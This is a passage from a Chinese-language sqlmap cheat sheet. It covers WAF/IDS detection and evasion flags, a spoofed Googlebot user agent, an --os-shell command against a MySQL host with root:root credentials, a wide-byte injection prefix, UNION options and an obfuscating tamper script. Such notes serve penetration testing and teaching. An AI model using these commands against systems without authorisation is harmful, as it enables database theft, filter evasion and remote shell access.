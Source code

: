**预估完成时间**

```bash
--eta                                           # 计算注入数据的剩余时间
```

**测试 WAF/IPS/IDS 保护**

```bash
--identify-waf                                                      # 尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。
--mobile                                                            # 模仿智能手机
--referer "http://www.google.com"                                   # 模拟来源
--user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"    # 模拟谷歌蜘蛛
--skip-waf
```

**尝试 getshell**

```bash
sqlmap -d "mysql://root:root@192.168.1.1:3306/mysql" --os-shell
```

**宽字节检测**
```bash
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3     # 宽字节检测
```

**union 语句测试**
```bash
--union-cols=UCOLS  测试UNION查询的SQL注入的列的范围
--union-char=UCHAR  用来破解列数的字符
--union-from=UFROM  在UNION查询的FROM部分中使用的表
```

---

## tamper

用法
```
python sqlmap.py -u http://xx.xxx.xx.xx?id=1 --tamper xxx.py
```

### 0eunion.py

> Replaces instances of <int> UNION with <int>e0UNION

使用 `e0UNION` 替换 `UNION`

Requirement:
* MySQL
* MsSQL

Notes:
* Reference: https://media.blackhat.com/us-13/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf

```py
>>> tamper('1 UNION ALL SELECT')
'1e0UNION ALL SELECT'
```
